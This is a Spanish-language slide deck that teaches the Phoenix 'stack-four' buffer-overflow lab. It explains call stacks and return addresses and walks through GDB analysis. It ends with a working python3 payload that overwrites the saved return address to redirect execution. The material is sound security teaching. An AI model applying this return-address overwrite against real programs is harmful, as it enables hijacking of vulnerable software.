

#+title: Stack Four
#+SUBTITLE: Pilas de llamadas y dirección de retorno
#+AUTHOR: Rising Edge - Enrique
#+DATE: 2026-06-10

:reveal_properties:
#+REVEAL_ROOT: https://cdn.jsdelivr.net/npm/reveal.js
#+OPTIONS: timestamp:nil toc:1 num:nil
#+REVEAL_THEME: dracula
:end:

* Recapitulación
- Desbordes en variables de entorno.
- Sobrescribir apuntadores a funciones.

* Ejercicio stack-four
** Código
#+begin_src c
/* phoenix/stack-four, by https://exploit.education */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
#+end_src

** Objetivo
#+ATTR_REVEAL: :frag (appear)
- The aim is to *execute* the function *~complete_level~* by *modifying* the
  *saved return address*, and pointing it to the complete_level() function.

** Resumiendo el código...
#+ATTR_REVEAL: :frag (appear)
- ¿Qué hay de diferente en el código?
- ¿Qué hace ~__builtin_return_address~?

** Teoría
*** Pila de llamadas (call stack)
- [[https://en.wikipedia.org/wiki/Call_stack][Definición]]
- Son estructuras de datos que contienen información sobre el estado de las
  subrutinas.
- Compuesta por marcos de pila (/stack frames/, también registros de activación
  o marcos de activación).
- Cada marco de pila corresponde a una invocación de una subrutina que aún no ha
  finalizado con un retorno.
- El /stack frame/ situado en la parte superior de la pila pertenece a la rutina
  que se está ejecutando en ese momento.

*** Representación de una pila de llamadas

*** Dirección de retorno (return address)
#+ATTR_REVEAL: :frag (appear)
- [[https://en.wikipedia.org/wiki/Return_statement][Definición]]
- La instrucción ~return~ hace que la ejecución *salga* de la *subrutina actual*
  y se *reanude* en el *punto* del código inmediatamente *posterior* a la
  instrucción que llamó a la subrutina.
- La rutina que realiza la llamada (/caller/) guarda la dirección de retorno en
  la pila de llamadas del proceso o un registro.

*** ~__builtin_return_address~
#+begin_src c
void * __builtin_return_address (unsigned int level)
#+end_src

- [[https://gcc.gnu.org/onlinedocs/gcc/Return-Address.html][Documentación]].
- Retorna la dirección de retorno de la función actual o de uno de los
  /callers/.
- ~level~ es el número de marcos de pila a escanear en la pila. 0 devuelve la
  dirección de retorno actual, 1 devuelve la del caller y sucesivamente.

** Resolviendo stack-four
*** Análisis inicial del binario
#+name: file-stack-one
#+begin_src bash
file /opt/phoenix/amd64/stack-four
#+end_src

*** Identificación de medidas de protección
#+name: checksec-stack-one
#+begin_src bash
checksec /opt/phoenix/amd64/stack-four
#+end_src

*** Metodología para resolver el nivel
1. Ejecutar binario en GDB.
2. Identificar función vulnerable y asignar breakpoint.
3. Crear ~hook-stop~ para analizar la pila del ~start_level~.
4. Identificar dirección de retorno en la pila.
5. Calcular longitud de bytes necesarios a enviar para sobrescribir la dirección
   de retorno.

*** Ejecutar GDB
#+begin_src bash
gdb -q /opt/phoenix/amd64/stack-four
#+end_src

*** Identificar función vulnerable
#+begin_src GDB
gef config context.enable 0
disassemble main
disassemble start_level
break *0x400649
#+end_src

*** Analizar con hook
#+begin_src GDB
define hook-stop
info registers
x/32wx $rsp # pila de 80 bytes
x/3i $rip
end
#+end_src

*** Calcular /padding/ necesario para llamar ~complete_level~
#+begin_src GDB
run # pasar 64 A's, buscar dirección de retorno y calcular offset
continue
#+end_src

*** Payload para resolver el nivel
#+begin_src bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*88 + b"\x1d\x06\x40")' | /opt/phoenix/amd64/stack-four
#+end_src

* Gracias (:
- ¿Dudas?
